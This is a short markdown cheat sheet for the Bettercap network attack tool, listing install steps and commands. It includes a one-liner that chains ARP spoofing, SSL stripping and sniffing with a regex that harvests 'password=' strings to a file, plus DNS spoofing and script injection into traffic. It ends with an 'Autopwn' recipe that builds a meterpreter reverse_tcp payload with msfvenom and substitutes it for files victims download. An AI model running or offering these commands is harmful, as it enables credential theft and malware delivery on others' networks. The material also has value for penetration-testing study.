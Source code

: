 # Bettercap

## Install 
```
apt-get install bettercap (if version > 2.x)
```

Otherwise:

```
go get github.com/bettercap/bettercap
```

## Usage

`sudo bettercap -eval "net.probe on; arp.spoof on; net.sniff on; http.proxy on;set http.proxy.sslstrip true;set net.sniff.regexp .*password=.+ ;set net.sniff.output passwords.cap"`

## Usual commands

- net.show : list of hosts 
- net.recon on : start network hosts discovery
- net.probe on : start active network hosts discovery
- net.sniff on : packet sniffing
- net.sniff stats : Examine packet sniffer stats
- net.fuzz on : Turn packet fuzzing on
- ticker on : start the ticker module
- set ticker.period 10
- set ticker.command "clear; net.show; events.show 20"
- set arp.spoof.targets {IPs} : List of target IP addresses 
- arp.spoof on : turn ARP spoofing on
- dns.spoof on : Turn DNS spoofing on
- set dns.spoof.address {IP} : set the IP address to return for spoofed DNS answer
- set dns.spoof.domains {domain} : set a list of domain targets for DNS spoofing
- set dns.spoof.all true : DNS spoofing for all requests regardless of domain
- set dns.spoof.hosts hostfile : DNS spoofing only for the entries mapped in the specified host file
- net.recon on; sleep 30; netrecon off; net show
- set arp.spoof.targets {ip}; set net.sniff.verbose false; set net.sniff.output arpspoof.pcap; net.sniff on; arp.spoof on
- http.proxy on : turn HTTP proxy on
- set http.proxy.sslstrip true : Enable ssstrilp
- set http.proxy.script script.js : inject the JS file contents in every request
- set http.proxy.injectjs javascript : Inject the specified javascript in every request
- https.proxy on : turn on https proxy
- set https.proxy.sslstrip true : turn on sslstrip

## Caplets

Collections of Bettercap commands saved in a file

```
events.clear
set net.sniff.verbose false
set net.sniff.local true
set net.sniff.filter not arp and not udp port 53
net.sniff on
```

`caplets.update`

`caplets.show`

## Bettercap Autopwn

Bettercap Autopwn replace downloaded files with a file or your choose. The payload file should be placed on : /usr/localshare/bettercap/capletsdownload-autopwn/{*plateform*}

`msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -o /usr/local/share/bettercap/caplets/download-autopwn/windows/payload.exe -f exe`

`bettercap -caplet /usr/local/share/bettercap/download-autopwn.cap -eval 'events.ignore endpoint; set arp.spoof.targets IP; arp.spoof on'`

## Links 

https://miloserdov.org/?p=1112

